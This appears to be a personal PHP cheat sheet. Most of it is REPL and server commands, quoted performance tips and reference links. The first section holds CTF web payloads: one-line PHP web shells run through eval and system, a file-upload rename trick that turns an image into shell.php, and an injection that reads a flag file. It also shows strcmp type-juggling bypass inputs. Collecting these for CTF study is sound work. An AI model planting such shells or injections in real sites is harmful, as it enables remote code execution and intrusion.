 # +

- [Online PHP editor \| Test code in 250\+ PHP versions](https://3v4l.org/)

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# repl

```bash
php -a
```

- [GitHub \- apinstein/iphp: An interactive php shell \(REPL\) with support for readline, autocomplete, include/require, and fatal\-error tolerance\.](https://github.com/apinstein/iphp)

# server

```bash
php -S localhost:8000
```

# performance 

- https://news.ycombinator.com/item?id=2615183
    > As someone who optimized a piece of PHP code recently, there are a number of things I ran into that were counterintuitive wrt performance.
    > - array_key_exists is 5X slower than isset (though there are different semantics)
    > - direct string concatenation is 2X faster than using "implode"
    > - memoization can be a huge win since function calls are 5X slower than array accesses. (No inlining in PHP)
    >
    > Of course, these optimizations don't matter except in your hotspots. (Why we still have to have this disclaimer on HN puzzles me, but people seem to keep trotting out the usual Knuth quote out of context as a way to write off micro-optimization techniques in general.)
    > Also important to keep in mind:
    > - PHP has copy on write semantics for arrays. So if you set $foo = $bar (arrays), you don't incur any additional memory until you alter $foo. (Aside from the additional reference.) Once you change any entry of $foo, PHP makes a copy of the whole thing. (This can result in massive performance and memory bloat if you don't realize its happening.)
    > - PHP arrays are not arrays, but are a hybrid linear array and hashtable. ("one data structure to rule them all.") So, even a simple "array" of integers incurs more than what you'd expect memory wise. In fact, IIRC, an array of integers incurs approximately 100 bytes of memory for each entry. Ouch. There are extensions in new versions of PHP that allow you to use 'real' arrays. If you're stuck using normal PHP arrays, good luck trying to design optimized data structures for the problem at hand.
    > 
    > See also: http://phpbench.com/

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# execute after redirect (EAR)

- https://0xdf.gitlab.io/2022/08/13/htb-retired.html

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

- [GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
- https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
- https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    - https://twitter.com/terjanq/status/1257276298550001664
